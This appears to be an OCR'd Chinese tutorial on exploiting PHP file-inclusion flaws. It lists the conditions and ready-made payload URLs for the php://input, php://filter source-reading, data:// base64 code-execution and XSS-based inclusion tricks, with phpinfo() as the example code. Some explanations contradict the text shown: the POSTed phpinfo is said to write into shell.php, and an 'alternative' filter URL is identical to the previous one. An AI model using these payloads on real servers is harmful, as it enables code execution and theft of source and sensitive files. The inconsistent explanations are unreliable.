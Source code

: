 

利用 php 流 input：

利用条件：

1、allow_url_include = On。

2、对 allow_url_fopen 不做要求。

index.php?file=php://input

POST:

<? phpinfo();?>



 

结果将在 index.php 所在文件下的文件 shell.php 内增加 "<?php phpinfo();?>" 一句话



利用 php 流 filter：

?file=php://filter/convert.base64-encode/resource=index.php

通过指定末尾的文件，可以读取经 base64 加密后的文件源码，之后再 base64 解码一下就行。虽然不能直接获取到 shell 等，但能读取敏感文件危害也是挺大的。

其他姿势：

index.php?file=php://filter/convert.base64-encode/resource=index.php

效果跟前面一样，少了 read 等关键字。在绕过一些 waf 时也许有用。



利用 data URIs：

利用条件：

1、php 版本大于等于 php5.2

2、allow_url_fopen = On

3、allow_url_include = On

利用 data:// 伪协议进行代码执行的思路原理和 php:// 是类似的，都是利用了 PHP 中的流的概念，将原本的 include 的文件流重定向到了用户可控制的输入流中

?file=data:text/plain,<?php phpinfo();?>

?file=data:text/plain;base64,base64编码的payload

index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

加号 + 的 url 编码为 %2b，PD9waHAgcGhwaW5mbygpOz8+ 的 base64 解码为：<?php phpinfo();?>

需要 allow_url_include=On



利用 XSS 执行任意代码：

?file=http://127.0.0.1/path/xss.php?xss=phpcode

利用条件：

1、allow_url_fopen = On
